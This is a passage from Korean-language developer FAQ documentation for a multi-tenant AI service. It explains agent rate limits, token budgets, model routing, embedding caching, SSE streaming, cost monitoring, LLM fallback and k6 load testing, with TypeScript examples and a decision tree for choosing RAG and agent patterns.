**짧은 답변**: ReAct 에이전트 단일 실행이 최대 10번의 LLM 호출을 발생시켜 비용이 매우 높기 때문입니다.

**상세 설명:**

```typescript
// routes.ts 82줄
const agentLimiter = createRateLimiter(5, 60, 'rl:ai:agent');
// 주석: // 에이전트는 비용이 높아 제한
```

**비용 비교 계산:**

```
일반 채팅 1회:
  입력: ~200 토큰
  출력: ~300 토큰
  총: ~500 토큰

ReAct 에이전트 1회 (최대 10 iterations):
  각 iteration: 입력 ~1000 + 출력 ~200 = ~1200 토큰
  10회: ~12,000 토큰
  = 일반 채팅의 24배 비용

분당 제한:
  채팅: 10회/분 × 500토큰 = 5,000 토큰/분
  에이전트: 5회/분 × 12,000토큰 = 60,000 토큰/분 (12배!)
```

따라서 에이전트는 분당 5회로 제한해도 실질적인 LLM 호출 부하는 채팅과 비슷합니다.

**비용 최적화 전략:**

```typescript
// 에이전트 iteration 최적화
const result = await runAgent(query, tools, executors, {
  maxIterations: 5,  // 기본 10 → 5로 줄여 비용 절감
  // 조기 종료 조건 추가
  earlyStopCondition: (step) => step.answer !== undefined,
});
```

---

### C-2. 토큰 예산 6000이 부족하면 어떻게 조정하나요?

**짧은 답변**: API 스키마에서 재정의 가능하며, LLM의 최대 컨텍스트 창과 응답 토큰을 합산하여 안전 범위를 유지해야 합니다.

**상세 설명:**

```typescript
// rag-engine.ts 87줄 — 기본값
const { maxContextTokens = 6000 } = options;
```

`maxContextTokens = 6000`은 컨텍스트(검색된 문서)에 쓸 수 있는 토큰입니다. 여기에 더해:
- 시스템 프롬프트: 약 200토큰
- 사용자 질문: 약 100~200토큰
- 예상 답변 길이: 약 1000~2048토큰

LLM 컨텍스트 창 예산:
```
8K 모델:  사용 가능 = 8192 - 200(시스템) - 200(질문) - 2048(답변) = 5744 ≈ 6000
16K 모델: 사용 가능 = 16384 - 500(시스템) - 500(질문) - 4096(답변) = 11288 ≈ 11000
32K 모델: 사용 가능 = 32768 - 500 - 1000 - 4096 = 27172 ≈ 27000
```

---

### C-3. LLM 모델을 어떻게 라우팅하나요?

**짧은 답변**: `routes.ts`의 `modelId` 매개변수로 요청별로 다른 모델을 지정하거나, DB에서 자동 선택합니다.

**상세 설명:**

```typescript
// ai-agent.handler.ts 61~67줄
let modelConfig;
if (body.modelId) {
  const model = await prisma.aiModel.findUnique({ where: { id: body.modelId } });
  if (model?.isActive) {
    modelConfig = { provider: model.provider, endpoint: model.endpoint, name: model.name, config: model.config };
  }
}
```

**모델 라우팅 전략:**

| 작업 | 권장 모델 | 이유 |
|------|---------|------|
| 에이전트 실행 | 큰 모델 (70B+) | 복잡한 추론 필요 |
| 단순 분류 | 작은 모델 (7B) | 비용 절약 |
| 임베딩 | 임베딩 전용 모델 | 채팅 모델보다 빠름 |
| RAG 답변 | 중간 모델 (13B~30B) | 균형 |
| 구조화 출력 | 지시 튜닝 모델 | JSON 생성 품질 |

```typescript
// 작업별 자동 모델 선택
async function selectModelForTask(task: string): Promise<string> {
  const modelMap: Record<string, { namePattern: string }> = {
    'agent':     { namePattern: 'qwen2.5:72b' },
    'classify':  { namePattern: 'qwen2.5:7b' },
    'embed':     { namePattern: 'embed' },
    'rag':       { namePattern: 'qwen2.5:30b' },
  };

  const config = modelMap[task];
  const model = await prisma.aiModel.findFirst({
    where: { isActive: true, name: { contains: config.namePattern } },
  });
  return model?.id ?? 'default';
}
```

---

### C-4. 임베딩 결과를 캐시하면 어떤 효과가 있나요?

**짧은 답변**: 동일한 질문의 임베딩 재계산을 방지하여 응답 시간 30~50% 단축, 임베딩 모델 부하 크게 감소합니다.

**상세 설명:**

```typescript
// 임베딩 캐시 패턴
async function generateEmbeddingCached(
  text: string,
  embedModelId?: string,
): Promise<number[]> {
  // 캐시 키: 텍스트 해시 + 모델 ID
  const cacheKey = `embed:${embedModelId ?? 'default'}:${hashText(text)}`;

  const cached = await redis.get<number[]>(cacheKey);
  if (cached) return cached;

  // 캐시 미스: 실제 임베딩 계산
  const embedding = await generateEmbedding(text, embedModelId);

  // 24시간 캐시 (질문 패턴은 반복됨)
  await redis.set(cacheKey, embedding, { ex: 86400 });

  return embedding;
}

function hashText(text: string): string {
  // 단순 해시 (암호화 불필요)
  return Buffer.from(text).toString('base64').slice(0, 32);
}
```

**임베딩 캐시 효과:**

```
공공기관 FAQ 시나리오:
  일일 질문 수: 10,000개
  반복 질문 비율: 40% (유사/동일 질문)
  임베딩 계산 비용: 1회당 20ms

캐시 없는 경우: 10,000 × 20ms = 200초 (임베딩만)
캐시 있는 경우: 6,000 × 20ms = 120초 (40% 절약)
```

---

### C-5. 스트리밍 응답(SSE)은 언제 사용해야 하나요?

**짧은 답변**: LLM 응답이 3초 이상 걸릴 때, 특히 에이전트나 장문 생성 작업에서 사용자 경험을 크게 향상시킵니다.

**상세 설명:**

```typescript
// routes.ts 186~207줄 — SSE 스트리밍 엔드포인트
app.post('/ai/chat/stream', {
  schema: {
    description: 'AI 채팅 스트리밍 (SSE, text/event-stream)',
    body: { ... grade: { enum: ['O'] } },
  },
  preHandler: chatLimiter,
}, chatStreamHandler);
```

**스트리밍 vs 일반 응답:**

```
일반 응답 (사용자 관점):
  전송 ────── 처리 중 (10초) ────── 수신
  ●                                  ○
  [로딩 스피너 10초]

SSE 스트리밍 (사용자 관점):
  전송 ── 첫 토큰(0.5초) ── 계속 수신 중... ── 완료
  ●       ●●●●●●●●●●●●●●●●●●●●●●●●●●●●●● ○
  [텍스트가 타이핑되는 것처럼 보임]
```

**SSE 구현 패턴:**

```typescript
// ai-stream.handler.ts 패턴
export async function chatStreamHandler(request: FastifyRequest, reply: FastifyReply) {
  reply.raw.writeHead(200, {
    'Content-Type': 'text/event-stream',
    'Cache-Control': 'no-cache',
    'Connection': 'keep-alive',
  });

  const stream = await llmProvider.chatStream(messages, options);

  for await (const chunk of stream) {
    reply.raw.write(`data: ${JSON.stringify({ text: chunk.text })}\n\n`);
  }

  reply.raw.write('data: [DONE]\n\n');
  reply.raw.end();
}
```

---

### C-6. AI 서비스 비용을 모니터링하는 방법은 무엇인가요?

**짧은 답변**: `/ai/usage`와 `/ai/cost` 엔드포인트로 토큰 사용량과 비용을 조회하고, Prometheus로 실시간 추적합니다.

**상세 설명:**

```typescript
// routes.ts 237~247줄
app.get('/ai/usage', { schema: { description: 'AI 사용량 조회' }, preHandler: readLimiter },
  usageHandler);

app.get('/ai/cost', { schema: { description: 'AI 비용 조회' }, preHandler: readLimiter },
  costHandler);
```

**비용 추적 메트릭:**

```typescript
// 토큰 사용량 추적 Prometheus 메트릭
const tokenCounter = new Counter({
  name: 'ai_tokens_total',
  help: 'AI 토큰 총 사용량',
  labelNames: ['tenant_id', 'model', 'operation', 'token_type'],  // input/output
});

const costGauge = new Gauge({
  name: 'ai_cost_dollars',
  help: 'AI 비용 (달러)',
  labelNames: ['tenant_id', 'model'],
});

// 핸들러에서 기록
await logAiEvent('AGENT_RUN', actor, 'agent', tenantId, ..., {
  tokensUsed: result.tokensUsed,  // ai-agent.handler.ts 121줄
  durationMs,
});
```

**테넌트별 비용 알림:**

```typescript
// 테넌트 월간 토큰 한도 초과 경보
const MONTHLY_TOKEN_LIMIT = 1_000_000;  // 100만 토큰

async function checkTenantTokenBudget(tenantId: string): Promise<void> {
  const monthlyUsage = await getMonthlyTokenUsage(tenantId);
  const usagePercent = (monthlyUsage / MONTHLY_TOKEN_LIMIT) * 100;

  if (usagePercent >= 80) {
    await sendAlert({
      tenantId,
      message: `AI 토큰 예산 ${usagePercent.toFixed(1)}% 사용`,
      level: usagePercent >= 95 ? 'critical' : 'warning',
    });
  }
}
```

---

### C-7. LLM 서버가 다운되었을 때 폴백 전략은 무엇인가요?

**짧은 답변**: Circuit Breaker + 폴백 모델 체인 + 캐시된 응답 세 계층으로 처리합니다.

**상세 설명:**

```typescript
// 폴백 체인 구현
async function callLLMWithFallback(
  messages: LLMMessage[],
  options: LLMOptions,
  preferredModelId?: string,
): Promise<LLMResponse> {
  // 1차: 요청된 모델
  const models = preferredModelId
    ? [preferredModelId, ...FALLBACK_MODEL_IDS]
    : FALLBACK_MODEL_IDS;

  for (const modelId of models) {
    try {
      const config = await buildConfigForModel(modelId);
      const provider = await createLLMProvider(config);

      // Circuit Breaker 상태 확인
      if (circuitBreakers.get(modelId)?.isOpen()) {
        continue;  // 이 모델 건너뜀
      }

      return await provider.chat(messages, options);
    } catch (error) {
      // Circuit Breaker 실패 기록
      circuitBreakers.get(modelId)?.recordFailure();
      continue;  // 다음 폴백 시도
    }
  }

  // 모든 모델 실패: 캐시된 응답 또는 에러
  const cached = await getSemanticallyCachedResponse(messages);
  if (cached) return cached;

  throw new Error('모든 LLM 서버 사용 불가');
}
```

---

### C-8. AI 서비스 성능 테스트는 어떻게 해야 하나요?

**짧은 답변**: k6 또는 Artillery로 부하 테스트를 수행하되, LLM 응답 시간 특성을 고려한 타임아웃과 가상 사용자 수 설정이 중요합니다.

**상세 설명:**

AI 서비스의 부하 테스트는 일반 API와 다른 설정이 필요합니다.

```javascript
// k6 부하 테스트 스크립트 (ai-service)
import http from 'k6/http';
import { check, sleep } from 'k6';

export const options = {
  stages: [
    { duration: '2m', target: 5 },   // 워밍업 (에이전트는 작게)
    { duration: '5m', target: 10 },  // 목표 부하
    { duration: '2m', target: 0 },   // 쿨다운
  ],
  thresholds: {
    // 에이전트는 30초 이내
    'http_req_duration{endpoint:agent}': ['p95<30000'],
    // 채팅은 10초 이내
    'http_req_duration{endpoint:chat}': ['p95<10000'],
    // 에러율 1% 이내
    'http_req_failed': ['rate<0.01'],
  },
};

export default function() {
  // RAG 질의 테스트
  const ragResponse = http.post(
    'http://ai-service/ai/rag/query',
    JSON.stringify({
      tenantId: '00000000-0000-0000-0000-000000000001',
      grade: 'O',
      question: '민원 처리 기간은 얼마나 되나요?',
    }),
    {
      headers: { 'Content-Type': 'application/json' },
      timeout: '60s',  // LLM은 60초 타임아웃
      tags: { endpoint: 'rag' },
    },
  );

  check(ragResponse, {
    '상태 200': (r) => r.status === 200,
    '답변 있음': (r) => r.json().data?.answer?.length > 0,
  });

  sleep(1);  // 실사용자는 1초 간격으로 요청
}
```

---

## AI 개발 의사결정 트리



### 의사결정 트리 사용 방법

1. **데이터 등급 확인 (최우선)**: C/S 등급 데이터는 AI API에 전달하면 안 됩니다. O 등급만 진행합니다.

2. **기능 유형 분류**:
   - 문서 검색 + 답변 → RAG 계열
   - 여러 단계 자동화 → 에이전트 계열
   - 정해진 형식 추출 → 구조화 출력
   - 외부 API 연계 → Function Calling

3. **문서 양과 정밀도 요구에 따른 RAG 선택**:
   - 100개 미만 문서, 일반 질의 → `runRAG` (응답 빠름)
   - 대용량 문서, 일반 정밀도 → 하이브리드 검색 (BM25+시맨틱)
   - 높은 정밀도 요구 → Advanced RAG (Reranking 포함)

4. **작업 복잡도에 따른 에이전트 선택**:
   - 1~3단계, 탐색적 → ReAct (빠름, 비용 낮음)
   - 4~10단계, 구조적 → Plan-Execute (예측 가능)
   - 멀티 도메인, 병렬 → Orchestrator (가장 강력, 비용 높음)

---

*Design Ref: SVC-AI-2026 DESIGN §1~§5, SVC-AI-ADV-R1~R2 DESIGN*
*Plan SC: FR-AI26.1~FR-AI26.5, FR-ADV1.6~FR-ADV1.7, FR-ADV2.1~FR-ADV2.6*
*CSAP: D-12 시스템개발보안 (입력검증, SQL주입방지, XSS방지)*
*N2SF: N-05 데이터등급 — C/S등급 AI API 전송 금지*
